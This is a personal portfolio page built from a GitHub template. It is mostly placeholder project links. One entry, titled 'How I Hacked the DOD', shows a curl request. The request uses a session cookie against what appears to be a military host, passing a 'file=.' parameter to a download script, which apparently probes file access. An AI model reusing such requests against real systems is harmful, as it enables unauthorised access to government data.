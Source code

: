 ## Portfolio

---

### Category Name 1 

[How I Hacked the DOD](/sample_page)
```bash
curl -i -s -k -X $'GET' \
    -H $'Host: dnc.nga.mil' -H $'Accept: */*' \
    -b $'JSESSIONID=<YOUR COOKIE, retrieved from REDACTED.mil>' \
    $'REDACTED/downloadAWSFiles.php?file=.'
```

---
[Project 2 Title](/pdf/sample_presentation.pdf)

---
[Project 3 Title](http://example.com/)

---

### Category Name 2

- [Project 1 Title](http://example.com/)
- [Project 2 Title](http://example.com/)
- [Project 3 Title](http://example.com/)
- [Project 4 Title](http://example.com/)
- [Project 5 Title](http://example.com/)

---




---
<p style="font-size:11px">Page template forked from <a href="https://github.com/evanca/quick-portfolio">evanca</a></p>
<!-- Remove above link if you don't want to attibute -->
